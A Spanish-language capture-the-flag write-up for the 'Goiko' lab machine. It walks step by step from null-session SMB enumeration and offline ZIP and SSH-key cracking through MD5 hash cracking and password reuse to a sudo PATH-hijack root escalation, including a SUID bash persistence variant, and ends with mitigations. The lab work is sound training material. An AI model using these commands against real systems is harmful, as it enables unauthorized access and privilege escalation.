## Información General

| Campo             | Detalle        |
| ----------------- | -------------- |
| Máquina           | Goiko          |
| Plataforma        | TheHackersLabs |
| Dificultad        | Facil          |
| Sistema Operativo | Linux (Debian) |
| Hostname          | ventura        |

## Resumen del Ataque

El punto de entrada fue una configuración incorrecta de Samba que permitía sesión nula (NULL session), exponiendo varios shares con credenciales y un fichero oculto que llevaron a credenciales de FTP. Desde FTP se descargó un ZIP protegido por contraseña que contenía a su vez una clave privada SSH cifrada y una lista de usuarios; ambas protecciones se crackearon offline con `john`. Con la clave privada se obtuvo acceso SSH como `gurpreet`. Dentro de la máquina, credenciales reutilizadas en una base de datos MySQL con hashes MD5 débiles permitieron pivotar al usuario `nika` (reutilizando la contraseña de `carline`, obtenida con `hashcat`). Finalmente, un privilegio de `sudo` mal configurado sobre un script (`watchporn.sh`) que invocaba al binario `find` sin ruta absoluta permitió un PATH hijacking clásico para escalar a `root`.

## Técnicas Usadas

- Enumeración de shares SMB con sesión nula (`smbmap`, `smbclient`)
- Extracción de credenciales desde archivos de texto y ficheros ocultos en shares SMB
- Acceso FTP con credenciales filtradas
- Cracking offline de ZIP protegido (`zip2john` + `john` + rockyou)
- Cracking offline de clave privada SSH protegida (`ssh2john` + `john` + rockyou)
- Acceso inicial vía SSH con clave privada
- Cracking de hashes MD5 de base de datos MySQL (`hashcat -m 0`)
- Reutilización/cruce de contraseñas entre usuarios del sistema
- Escalada de privilegios por PATH hijacking en script con `sudo` (NOPASSWD)

## Desarrollo

### 1. Escaneo de puertos

```
sudo nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 192.168.241.153
```



### 2. Enumeración de servicios y versiones

```
nmap -p 22,139,445,10021 -sC -sV -oN allports 192.168.241.153
```



### 3. Enumeración SMB con sesión nula

```
smbmap -H 192.168.241.153
```



### 4. Extracción del share `food`

```
smbclient //192.168.241.153/food -N
```



### 5. Extracción del share `dessert`

```
smbclient //192.168.241.153/dessert -N
```



### 6. Extracción del share `menu` y hallazgo del fichero oculto

```
smbclient //192.168.241.153/menu -N
```



El fichero oculto `.cafesinleche` (marcado con atributo `H` en el listado) no aparece en un `ls` normal de un cliente y hay que solicitarlo explícitamente. Contenía credenciales:

```
cat .cafesinleche
```



### 7. Acceso FTP y descarga del ZIP

```
ftp marmai@192.168.241.153 -p 10021
```

```
ftp> ls
ftp> get BurgerWithoutCheese.zip
```



### 8. Intento de descompresión (fallido, ZIP protegido)

```
unzip BurgerWithoutCheese.zip
```


El ZIP estaba protegido por contraseña, por lo que se procedió a crackearlo offline.

### 9. Cracking del ZIP

```
zip2john BurgerWithoutCheese.zip > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```



Con la contraseña `princess95` se descomprimió el ZIP, obteniendo `id_rsa` (clave privada SSH, también protegida por contraseña) y `users` (lista de posibles usuarios):

```
cat users
```



### 10. Cracking de la clave privada SSH

```
ssh2john id_rsa > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```



### 11. Acceso inicial por SSH

```
chmod 600 id_rsa
ssh -i id_rsa gurpreet@192.168.241.153
```

```
gurpreet@ventura:~$ cat user.txt
765d76sdsafs6asf4da0c0f39a14b96d
```



### 12. Nota en el home y pista sobre la base de datos

```
gurpreet@ventura:~$ cat nota
```



### 13. Acceso a MySQL/MariaDB (reutilizando la contraseña de la clave SSH)

```
mysql -u gurpreet -p
```

Contraseña: `babygirl`

```
MariaDB [(none)]> show databases;
```



```
MariaDB [(none)]> use secta;
MariaDB [secta]> show tables;
```



```
MariaDB [secta]> select * from integrantes;
```



### 14. Cracking de los hashes MD5 con hashcat

```
hashcat -m 0 -a 0 '703ff9a12582b2aaaa3fe7f89bb976c8' /usr/share/wordlists/rockyou.txt
```

```
703ff9a12582b2aaaa3fe7f89bb976c8:lucymylove
```

`carline:lucymylove`

```
hashcat -m 0 -a 0 'c6f606a6b6a30cbaa428131d4c074787' /usr/share/wordlists/rockyou.txt
```

El hash de `nika` no se crackeó con rockyou. Sin embargo, al probar la contraseña obtenida para `carline` sobre el usuario `nika`, esta también resultó válida (reutilización de contraseña entre usuarios).

### 15. Pivote lateral a `nika`

```
gurpreet@ventura:~$ su nika
```

```
nika@ventura:/home/gurpreet$ whoami
```



### 16. Enumeración de privilegios sudo

```
nika@ventura:/home/gurpreet$ sudo -l
```



```
nika@ventura:/home/gurpreet$ cat /opt/porno/watchporn.sh
```



El script invoca al binario `find` sin ruta absoluta y el sudoer permite `SETENV`, por lo que es posible manipular la variable `PATH` para que se ejecute un `find` malicioso en su lugar.

### 17. Escalada de privilegios por PATH hijacking

```
nika@ventura:/home/gurpreet$ echo '/bin/bash' > /opt/porno/find

nika@ventura:/home/gurpreet$ chmod 777 /opt/porno/find

nika@ventura:/home/gurpreet$ sudo PATH=/opt/porno:$PATH /opt/porno/watchporn.sh
```

```
root@ventura:/home/gurpreet# whoami
```



**Alternativa** (persistente, vía SUID):

```
echo '#!/bin/bash' > /opt/porno/find 

echo 'chmod u+s /bin/bash' >> /opt/porno/find 

chmod 777 /opt/porno/find 

sudo PATH=/opt/porno:$PATH /opt/porno/watchporn.sh 

bash -p
```

### 18. Captura de la flag de root

```
root@ventura:~# cat root.txt
```



## Lecciones Aprendidas

- Las sesiones nulas de Samba pueden exponer shares de lectura con información sensible (credenciales, ficheros ocultos) sin necesidad de autenticación.
- Los ficheros ocultos en shares SMB (atributo `H`) no aparecen en un `ls` estándar y deben pedirse explícitamente; es fácil pasarlos por alto en la enumeración.
- Los ZIPs y claves privadas SSH protegidos por contraseñas débiles son crackeables offline en segundos con diccionarios comunes como rockyou.
- La reutilización de contraseñas entre distintos servicios (SSH, MySQL) y entre distintos usuarios del sistema es un vector de escalada/pivote muy común.
- Los hashes MD5 sin salt en bases de datos son triviales de crackear con `hashcat` y diccionarios.
- Un sudoer con `SETENV: NOPASSWD` sobre un script que llama a binarios sin ruta absoluta permite un PATH hijacking directo a root.

## Medidas de Mitigación

- Deshabilitar el acceso anónimo/sesión nula en Samba (`map to guest = never`, restringir `guest ok`).
- No almacenar credenciales en texto plano en shares de red, ni siquiera en ficheros ocultos.
- Aplicar políticas de contraseñas robustas y evitar la reutilización de contraseñas entre usuarios y servicios.
- Sustituir MD5 por algoritmos de hash con salt y factor de coste ajustable (bcrypt, argon2).
- Eliminar la directiva `SETENV` de sudoers salvo que sea estrictamente necesaria, y usar rutas absolutas para todos los binarios invocados en scripts ejecutados con privilegios elevados.
- Auditar periódicamente `sudo -l` para cada usuario y revisar scripts con permisos de ejecución vía sudo.

